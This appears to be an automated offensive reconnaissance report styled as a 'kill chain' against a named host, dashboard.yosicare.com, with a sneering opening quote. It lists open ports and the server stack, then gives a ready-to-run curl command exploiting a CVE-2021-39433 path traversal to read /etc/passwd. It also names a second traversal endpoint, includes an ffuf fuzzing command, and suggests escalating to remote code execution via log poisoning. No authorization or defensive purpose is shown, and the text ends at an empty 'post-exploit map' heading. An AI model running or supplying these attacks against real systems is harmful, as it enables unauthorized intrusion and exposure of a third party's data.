

> "Another day, another dashboard with 'download.php' and 'index.php' pointing directly to `/etc/passwd`. One might think by 2026, we'd have moved beyond the 'let's just expose our file system' school of thought. Perhaps 'security through obscurity' truly means 'obscure the attacker's path with our sheer incompetence.'"

## 🎯 TARGET IDENT: dashboard.yosicare.com
*   **Assessed OS:** Amazon Linux
*   **Verified Surface:**
    *   Port 80/tcp: http (awselb/2.0, redirects to HTTPS)
    *   Port 443/tcp: ssl/https (awselb/2.0, Apache/2.4.62 (Amazon Linux) OpenSSL/3.0.8)

## 🩸 THE KILL CHAIN (Prioritized Paths)

### Path 1: CVE-2021-39433 - Local File Inclusion (LFI)
*   **Vector:** Port 443 (ssl/https - Apache/2.4.62)
*   **Evidence:** `[ [92mCVE-2021-39433 [0m] [ [94mhttp [0m] [ [38;5;208mhigh [0m] https://dashboard.yosicare.com/download/index.php?file=../../../../../../../../../etc/passwd`
    *   A confirmed path traversal vulnerability allowing disclosure of `/etc/passwd`. This grants local user enumeration and provides critical information for further post-exploitation (e.g., identifying services running as specific users, potential default shells, etc.). This LFI may also be exploitable for Remote Code Execution (RCE) via log poisoning or other techniques, requiring manual enumeration and payload crafting.
*   **Execution:**
    ```bash
    curl -k "https://dashboard.yosicare.com/download/index.php?file=../../../../../../../../../etc/passwd"
    ```
*   **Outcome:** LFI / Creds (local user enumeration)

## 🕸️ WEB SURFACE (NIKTO/HTTP)
*   **Stack:** awselb/2.0, Apache/2.4.62 (Amazon Linux), OpenSSL/3.0.8
*   **Exposed Assets:**
    *   `/download.php?file=/etc/passwd` (via `flir-path-traversal` - LFI)
    *   `/download/index.php?file=../../../../../../../../../etc/passwd` (via `CVE-2021-39433` - LFI)
*   **Web Probe:**
    ```bash
    ffuf -u https://dashboard.yosicare.com/FUZZ -w /usr/share/wordlists/dirb/common.txt -recursion -e .php,.html,.bak,.old -v -mc 200,301,302,403
    ```

## 🗺️ TARGET TOPOLOGY & POST-EXPLOIT MAP
